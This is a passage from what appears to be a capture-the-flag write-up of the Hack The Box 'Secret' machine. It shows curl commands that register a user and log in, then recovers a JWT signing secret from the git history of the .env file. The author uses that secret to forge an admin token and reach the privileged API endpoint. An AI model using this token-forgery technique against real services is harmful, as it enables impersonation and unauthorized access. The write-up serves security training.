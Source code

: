 ```js
                role: "you are admin",
                desc: "{path to the binary}"
            }
        })
    }
    else {
        res.json({
            role: {
                role: "not enough privilages",
                desc: userinfo.name.name
            }
        })
    }

})


module.exports = router 
```
We can also create our own user via curl: 
```console
┌──(bitis㉿workstation)-[~/…/Machines/Secret/local-web/routes]
└─$ curl -X POST -d '{"name": "user123", "email": "test@test.com", "password": "password123"}' -H 'Content-Type: application/json' http://10.129.77.29:3000/api/user/register
{"user":"user123"}        
```
We can then login using the API as well. Doing this we recieve a JWT. 
```console
┌──(bitis㉿workstation)-[~/…/Machines/Secret/local-web/routes]
└─$ curl -X POST -d '{ "email": "test@test.com", "password": "password123"}' -H 'Content-Type: application/json' http://10.129.77.29:3000/api/user/login   
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MmM5ZDllMGRmMjgwZDA0N2FiNmIwNWMiLCJuYW1lIjoidXNlcjEyMyIsImVtYWlsIjoidGVzdEB0ZXN0LmNvbSIsImlhdCI6MTY1NzM5NTc3NH0.PBkFSFO_coZUXV3tPaIXjN9n_XC8N8Kb0T_vohL3uNY
```
We can then use [jwt.io](https://jwt.io/) to decode the JWT. 
![](JWT_test.png)
It would be extremely cool and very useful if we could just make our own valid tokens, however this requires that we know the secret used to sign the tokens. Luckily, the source code we downloaded earlier is actually is a `git` repository. We can then use `git log` and `git diff` to check for differences between commits. Doing this we find what seems to be the JWT secret:
```console
diff --git a/.env b/.env
index fb6f587..31db370 100644
--- a/.env
+++ b/.env
@@ -1,2 +1,2 @@
 DB_CONNECT = 'mongodb://127.0.0.1:27017/auth-web'
-TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
+TOKEN_SECRET = secret
```
We can then create a JWT for a user with the name `theadmin`. 
![](admin_JWT.png)
We then see that we have successfully impersonated the admin:
```console
┌──(bitis㉿workstation)-[~/htb/Machines/Secret/local-web]
└─$ curl -X GET -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MmM5ZDllMGRmMjgwZDA0N2FiNmIwNWMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3RAdGVzdC5jb20iLCJpYXQiOjE2NTczOTU3NzR9.0l8x-px0y5ok5cvMuj1IC0qzw6p1Oc6J-zfHVlzG16A' http://10.129.77.29:3000/api/priv
{"creds":{"role":"admin","username":"theadmin","desc":"welcome back admin"}}
```